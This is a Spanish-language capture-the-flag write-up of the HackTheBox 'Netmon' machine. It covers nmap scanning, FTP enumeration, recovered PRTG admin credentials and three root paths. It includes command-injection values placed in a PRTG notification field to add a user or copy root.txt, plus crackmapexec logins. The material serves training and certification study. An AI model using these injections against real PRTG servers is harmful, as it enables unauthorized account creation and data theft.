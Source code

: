 ```yaml
---
layout:   post
title:    "Write Up Netmon."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,FTP,CVE,RCE,Weak-Authentication,Write-Up-Machine,Starting-Point,eJPT,eWPT,OSCP] 
---
```

![list](/assets/img/netmon/Captura de pantalla (142).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.152 -oA allports
```

![list](/assets/img/netmon/Kali-2022-09-09-15-00-11.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}
***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.

```bash
nmap -p21,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sV -sC 10.10.10.152 -oN target
```

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros, aunque tenemos muchos puertos abiertos niguno de ellos representa una vulnerabilidad exectuando el pueto 21 FTP ademas de el puento80 que es Web.

```bash
ftp 10.10.10.52
```
Husmeando por los direcctorios en el escritorio nos encontramos con la flag de user.
{:.note}



Enumeramos las tecnologias que usa la web con whatweb o wapalizer.

![list](/assets/img/netmon/Kali-2022-09-09-15-18-56.png){:.lead width="800" height="100" loading="lazy"}


Tambien si nos vamos a ala web vemos que temenos la capacidad de loogearnos lo cual podemos probar usar contraseñas por defecto bucando por internet.

Si busacmo en internet por path traversal windows presseler o o buscando manualmente en el ftp daremos con el archivo de configuracion de PRTG y tambien la copia de seguridadcon el comando wget nos decargamos los dos archivos a la maquina atacante para analizar dichos documentos.

```bash
curlftpfs ftp://10.10.10.152 /mnt/montura
```
Esto es para movilizarnos con fluides por el ftp pero no esnesesario. 
{:.note}



Para movilizanos con rapides por los direcctorios de FTP podiamos crear una montura con certutils.

```bash
diff Configuration.old Configuration.old.bak -y | less
```

{:.note}
El parametro -y es parq que en pantalla aparescan los dos documetos y sea mas facil su analisis, encontramos un ususrio y contraseña que usaremos en la pagina web para loogearnos.


![list](/assets/img/netmon/Kali-2022-09-09-16-20-57.png){:.lead width="800" height="100" loading="lazy"}
User=prtgadmin pass=PrTg@dmin2018
{:.note}

![list](/assets/img/netmon/Kali-2022-09-09-16-21-48.png){:.lead width="800" height="100" loading="lazy"}

Si buscamos en internet algun exploit relacionado con PRTG o viendo los archivos de la licencia de PRTG vemos que has una ruta a la cual hacen refercia que es `/myaccount.htm?tabid=2` la cual si la pegamos des pues de la ip uan ves loogeados no rdirigue a una seccion donde se pueden crea notificaciones.

![list](/assets/img/netmon/Kali-2022-09-09-16-23-12.png){:.lead width="800" height="100" loading="lazy"}

![list](/assets/img/netmon/Kali-2022-09-09-16-37-44.png){:.lead width="800" height="100" loading="lazy"}

En el ftp esta en codigo html lo cual podemos decodearlo en la terminal o via web en [codebeautify].
{:.note}

[codebeautify]: https://codebeautify.org/html-decode-string

***
## Explotacion y Escalacion de privilegios

Tenemos varias formas de explotar obtener la flag root pero vamos a ver tres.

### Primera forma

es usar el exploit de github el cual nos dice que nesesitamos la cookie de seccion la cual interceptamos con burpsuite.

![list](/assets/img/netmon/Kali-2022-09-09-17-33-04.png){:.lead width="800" height="100" loading="lazy"}
Interceptar la cookie.
{:.note}

![list](/assets/img/netmon/Kali-2022-09-09-17-34-35.png){:.lead width="800" height="100" loading="lazy"}
El exploit lo que hace es que crea o injecta un  usuario y pass para el usuario root.
{:.note}


Luego con crackmaapexec nos loogeamos y obtenemos la flag de root.

```bash
crackmaapexec smb 10.10.10.152 -u "pentest" -p "P3nTest!"
```
***
### Segunda forma

Nos debemos crear una noticicacion en la cual podemos inyectar un usuario y pass para usar crackmapexex o ssh ,o una reverse shell.

![list](/assets/img/netmon/Kali-2022-09-09-16-49-48.png){:.lead width="800" height="100" loading="lazy"}
Creamos una notificacion llamada test.
{:.note}


En la parte mas baja en la seccion de remote execution code existe la posibilidad de insetar una lineas de comando para hacer lo antes mecionado de la siguiente manera.

```bash
C:\\User\\Public\\Texter; net user test test123 add/ 
```
Ya creado usamos crackmapexec. 
{:.note}

### Tercera forma

Es lo mismo que el paso anterio pero en ves crear usuario y contraseña copiamos la flags de root al directio FTP.

![list](/assets/img/netmon/Kali-2022-09-09-17-24-33.png){:.lead width="800" height="100" loading="lazy"}

```bash
tester.txt Copy-Item -Path "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\texter.txt" -Recurse
```
Ya seria diriguirse a la  ruta donde guardamos el recurso en el FTP. 
{:.note}


***
```bash
🎉 Felicitaciones ya has comprometido Netmon de HackTheBox 🎉
```
{:.centered}
***

Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}

